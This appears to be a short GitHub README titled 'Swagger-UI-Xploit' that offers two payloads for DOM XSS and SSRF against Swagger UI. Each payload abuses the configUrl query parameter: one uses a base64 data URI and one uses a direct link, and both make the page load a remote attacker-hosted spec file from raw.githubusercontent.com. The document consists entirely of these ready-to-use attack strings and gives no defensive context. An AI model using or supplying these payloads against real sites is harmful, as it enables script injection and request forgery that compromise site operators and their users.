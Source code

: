 # Swagger-UI-Xploit

Payloads to SSRF and DOM XSS 


```
/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0gxWHBsb2l0L1N3YWdnZXItVUktWHBsb2l0L21haW4vdGVzdC55YW1sIgp9
```

```
/?configUrl=https://raw.githubusercontent.com/H1Xploit/Swagger-UI-Xploit/main/test.json
```
